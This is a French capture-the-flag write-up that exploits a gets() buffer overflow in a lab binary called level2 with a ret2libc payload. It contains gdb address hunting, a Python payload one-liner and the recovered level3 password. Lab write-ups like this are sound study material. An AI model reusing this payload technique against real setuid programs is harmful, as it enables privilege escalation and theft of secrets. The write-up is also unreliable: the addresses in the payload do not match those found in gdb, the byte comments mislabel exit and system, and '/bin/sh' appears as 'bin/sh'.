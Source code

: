 Je commence par découvrir qui je suis, où je suis, et qu'est-ce qui est à ma disposition :

```
$ id && pwd && ls -la
uid=2021(level2) gid=2021(level2) groups=2021(level2),100(users)
/home/user/level2
total 17
dr-xr-x---+ 1 level2 level2   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level2 level2  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level2 level2 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2
-rw-r--r--+ 1 level2 level2   65 Sep 23  2015 .pass
-rw-r--r--  1 level2 level2  675 Apr  3  2012 .profile
```

Je tente de lancer le binaire level2 :

```
$ ./level2

```

Il ne répond qu'avec un input :

```
$ ./level2
da
da
```

Je décide à partir de ce niveau d'utiliser les logiciels de décompilation présent sur [Dogbolt](https://dogbolt.org/?id=4128e95e-4279-47df-81a9-a69c5f209d01).

En lui passant le binaire au préalable téléchargé, `Ghidra` me procure le code suivant :

```c
void p() {
  uint unaff_retaddr;
  char buffer[76];
  
  fflush(stdout);
  gets(buffer);
  if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n", unaff_retaddr);
                    // WARNING: Subroutine does not return
    _exit(1);
  }
  puts(buffer);
  strdup(buffer);
  return;
}

void main(void) {
  p();
  return;
}
```

J'identifie :

- une vulnérabilité possible avec `gets()`
- la mise en place d'un 'safeguard' avec une condition if

`Dogbolt` me propose aussi la version d'`Hexray` :

```c
char *p() {
  char s[64]; // [esp+1Ch] [ebp-4Ch] BYREF
  const void *v2; // [esp+5Ch] [ebp-Ch]
  unsigned int retaddr; // [esp+6Ch] [ebp+4h]

  fflush(stdout);
  gets(s);
  v2 = (const void *)retaddr;
  if ( (retaddr & 0xB0000000) == -1342177280 )
  {
    printf("(%p)\n", v2);
    _exit(1);
  }
  puts(s);
  return strdup(s);
}
```

Etant donné qu'aucun appel à `exec` ne semble être fait dans l'ensemble du code décompilé, je me penche sur un type d'attaque appellé [Ret2Libc](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc) et y trouve un schéma explicatif décrivant l'aspect du payload infecté nécessaire.

Afin d'exploiter `gets()`, je note d'abord que le buffer 'non-exploitable' est de 76 bytes d'après l'analyse par `Ghidra`.

Je note que la version d'`Hexray` spécifie que :

```c
unsigned int retaddr; // [esp+6Ch] [ebp+4h]
```

La partie `ebp+4` m'indique que la valeur de `retaddr` se trouve à `ebp + 4`.

`ebp` correspondant à un pointeur sur la frame de la stack actuelle, cela signifie que l'adresse de retour de `p` se trouve 4 bytes plus loin que `ebp`. Je dois donc ajouter 4 bytes à mon payload infecté afin qu'il fasse 80 bytes, et que les 4 prochains pointent sur `retaddr`.

Je compose donc mon payload infecté avec les informations suivantes :

- 80 bytes de `NOP` (`\x90`) qui correspondent à des instructions de ne rien faire et s'assure du bon alignement de la mémoire

- L'adresse de retour de `p` (trouvé avec `gdb` puis `disas main`) : `0x0804853e`

- Une adresse vers `system()` dans la `libc`

- Une adresse vers `exit()` dans la `libc`

- Une adresse vers `"bin/sh"` dans la `libc`


Pour trouver les trois dernières adresses, j'utilise `gdb` après avoir mis un `breakpoint` et avoir lancé le programme, afin de regarder sa mémoire :

```
# System
(gdb) info function system
0x08048360  system
0x08048360  system@plt
...

# Exit
(gdb) info function exit
0xb7e5ebe0  exit
...

# /bin/sh
(gdb) info proc mappings
...
0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
...
(gdb) find 0xb7e2c000, 0xb7fcf000, "/bin/sh"
0xb7f8cc58
1 pattern found.
```

Je construis mon payload en utilisant python, y ajoute une lecture du `.pass` du level3, et enfin le passe à l'executable `level2` :

```python
(python -c 'print("\x90"*80
+ "\x08\x04\x85\x3e"[::-1] # <- return address of p [::-1] is an inverted splice
+ "\xb7\xe6\xb0\x60"[::-1] # <- return address of exit
+ "\x08\x04\x83\xd0"[::-1] # <- return address of system
+ "\xb7\xf8\xcc\x58"[::-1] # <- return address of "bin/sh"
)' && echo 'cat /home/user/level3/.pass') | ./level2

492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

